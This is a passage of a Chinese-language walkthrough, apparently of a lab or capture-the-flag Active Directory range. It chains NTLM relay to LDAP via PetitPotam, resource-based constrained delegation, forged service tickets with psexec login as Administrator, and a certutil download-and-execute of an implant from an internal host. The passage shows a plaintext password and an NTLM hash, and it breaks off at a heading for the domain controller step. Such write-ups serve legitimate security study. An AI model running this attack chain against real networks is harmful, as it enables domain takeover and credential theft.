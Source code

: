 ![](https://cdn.silente.top/img/202311141939361.png)

测试：

![](https://cdn.silente.top/img/202311150110623.png)

利用 `-delegate-access` 选项基于资源的约束委派攻击。同时利用 [PetitPotam](https://forum.butian.net/share/2220) 触发目标访问我们的 http 中继服务，从而获取其 Net-NTLMv2 Hash，再将其通过 ldap 传递到 dc 的 ldap 服务。

通过 ldap 修改 `XR-LCM3AE8B` 其自身的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性配置基于资源的约束委派，使得 `xr-desktop$` 能够模拟任意用户访问该服务。

- [委派相关知识](https://developer.aliyun.com/article/1219773)
- [kerberos](https://daiker.gitbook.io/windows-protocol/kerberos/)

```sh
proxychains python3 examples/ntlmrelayx.py -t ldap://172.22.11.6 --no-dump --no-da --no-acl --escalate-user 'xr-desktop$' --delegate-access

proxychains python3 PetitPotam.py -u yangmei -p 'xrihGHgoNZQ' -d xiaorang.lab ubuntu@80/evil.cnf 172.22.11.26
```

![](https://cdn.silente.top/img/202311142030680.png)


伪造银票：


```sh
python getST.py xiaorang.lab/'XR-DESKTOP$' -hashes ':c741dc7c8950a2864de8ce65e740fba4' -spn cifs/XR-LCM3AE8B.xiaorang.lab -impersonate Administrator -dc-ip 172.22.11.6
```

![](https://cdn.silente.top/img/202311142030314.png)

银票登录：


```sh
export KRB5CCNAME=./Administrator.ccache;proxychains python psexec.py xiaorang.lab/administrator@XR-LCM3AE8B.xiaorang.lab -k -no-pass -dc-ip 172.22.11.6 -codec gbk
```

![](https://cdn.silente.top/img/202311142034183.png)

把 viper 马丢到入口机上起一个 `python3 -m http.server 8081` 文件传输并执行

```sh
certutil -urlcache -split -f http://172.22.11.76:8081/re.exe test.exe
test.exe
```

上线成功：

![](https://cdn.silente.top/img/202311142039702.png)

### 6 (DC)
